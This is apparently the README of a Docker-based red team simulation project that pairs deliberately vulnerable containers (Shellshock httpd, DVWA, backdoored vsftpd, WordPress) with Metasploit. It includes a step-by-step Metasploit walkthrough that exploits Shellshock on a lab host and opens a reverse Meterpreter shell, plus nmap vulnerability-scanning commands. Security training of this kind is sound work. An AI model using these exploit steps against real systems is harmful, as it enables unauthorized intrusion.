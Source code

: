 # redteam

Red Team simulation

## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
  - vsftpd with an infamous backdoor
  - wordpress (plus mysql-5)
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)




## Requirements

1. Install docker and docker-compose




## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Development

### Coding

Use one branch per feature so we can merge in small change increments: `git checkout main && git pull && git checkout -b my-branch-name`

### Run tests

```docker-compose -f docker-compose-tests.yml up --build```

### Using your local python

You should normally use `docker-compose up` instead of running your own python, but if for some reason you need local development:

```
pip install --user pipenv
cd redteam/src
pipenv shell
pipenv install --dev
python -m director
```



## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Remote code execution exploiting Shellshock</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>


<details>
  <summary>Vulnerability scanning</summary>

```
  mkdir -p $HOME/.nmap/scripts && wget -O $HOME/.nmap/scripts/vulners.nse 'https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse' && nmap --script-updatedb
  nmap -sV --script vulners  --script-args mincvss=6.0 target1
```
</details>

